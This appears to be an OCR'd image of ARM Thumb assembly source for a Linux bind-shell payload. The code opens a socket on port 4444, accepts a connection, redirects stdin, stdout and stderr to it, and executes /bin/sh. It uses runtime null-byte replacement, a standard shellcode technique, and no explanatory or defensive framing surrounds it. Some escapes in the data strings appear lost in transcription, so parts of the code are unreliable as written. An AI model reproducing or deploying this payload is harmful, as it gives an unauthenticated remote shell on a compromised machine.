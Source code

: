 ```
    mov r7, #200        // r7 = 281 (socket)
    add r7, #81         // r7 value needs to be split 
    svc #1              // r0 = host_sockid value
    mov r4, r0          // save host_sockid in r4

// bind(r0, &sockaddr, 16)
    adr  r1, struct_addr // pointer to address, port
    strb r2, [r1, #1]    // write 0 for AF_INET
    strb r2, [r1, #4]    // replace 1 with 0 in x.1.1.1
    strb r2, [r1, #5]    // replace 1 with 0 in 0.x.1.1
    strb r2, [r1, #6]    // replace 1 with 0 in 0.0.x.1
    strb r2, [r1, #7]    // replace 1 with 0 in 0.0.0.x
    mov r2, #16          // struct address length
    add r7, #1           // r7 = 282 (bind) 
    svc #1
    nop

// listen(sockfd, 0) 
    mov r0, r4           // set r0 to saved host_sockid
    mov r1, #2        
    add r7, #2           // r7 = 284 (listen syscall number) 
    svc #1        

// accept(sockfd, NULL, NULL); 
    mov r0, r4           // set r0 to saved host_sockid
    sub r1, r1, r1       // set r1 to null
    sub r2, r2, r2       // set r2 to null
    add r7, #1           // r7 = 284+1 = 285 (accept syscall)
    svc #1               // r0 = client_sockid value
    mov r4, r0           // save new client_sockid value to r4  

// dup2(sockfd, 0) 
    mov r7, #63         // r7 = 63 (dup2 syscall number) 
    mov r0, r4          // r4 is the saved client_sockid 
    sub r1, r1, r1      // r1 = 0 (stdin) 
    svc #1

// dup2(sockfd, 1)
    mov r0, r4          // r4 is the saved client_sockid 
    add r1, #1          // r1 = 1 (stdout) 
    svc #1

// dup2(sockfd, 2) 
    mov r0, r4          // r4 is the saved client_sockid
    add r1, #1          // r1 = 2 (stderr) 
    svc #1

// execve("/bin/sh", 0, 0) 
    adr r0, shellcode   // r0 = location of "/bin/shX"
    eor r1, r1, r1      // clear register r1. R1 = 0
    eor r2, r2, r2      // clear register r2. r2 = 0
    strb r2, [r0, #7]   // store null-byte for AF_INET
    mov r7, #11         // execve syscall number
    svc #1
    nop

struct_addr:
.ascii "x02xff" // AF_INET 0xff will be NULLed 
.ascii "x11x5c" // port number 4444 
.byte 1,1,1,1 // IP Address 
shellcode:
.ascii "/bin/shX"
```